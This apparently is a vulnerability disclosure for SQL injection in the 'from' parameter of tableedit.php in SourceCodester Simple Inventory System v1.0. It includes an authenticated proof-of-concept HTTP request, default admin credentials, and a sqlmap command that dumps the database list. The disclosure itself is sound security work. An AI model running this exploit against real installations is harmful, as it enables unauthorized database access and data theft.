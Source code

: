 ### SQL injection vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：tableedit.php

injection parameter:$_POST['from']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the from parameter is passed in through post, it is directly spliced into the SQL update statement without any security filtering, resulting in a SQL injection vulnerability. We can obtain any information in the database through error-based injection.

![image-20240517161740724](SourceCodester Simple Inventory System Sql Inject-3.assets/image-20240517161740724.png)

#### 2.Vulnerability verification and exploit

After admin/admin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
POST /tableedit.php HTTP/1.1
Host: 10.15.6.184:82
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.15.6.184:82
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.15.6.184:82/tableedit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ncbt63bs17glrou5b79l17ifm6
Connection: close

from=2024-05-15&to=2024-05-16
```

python .\sqlmap.py -r .\1.txt --batch --dbs

![image-20240517161559656](SourceCodester Simple Inventory System Sql Inject-3.assets/image-20240517161559656.png)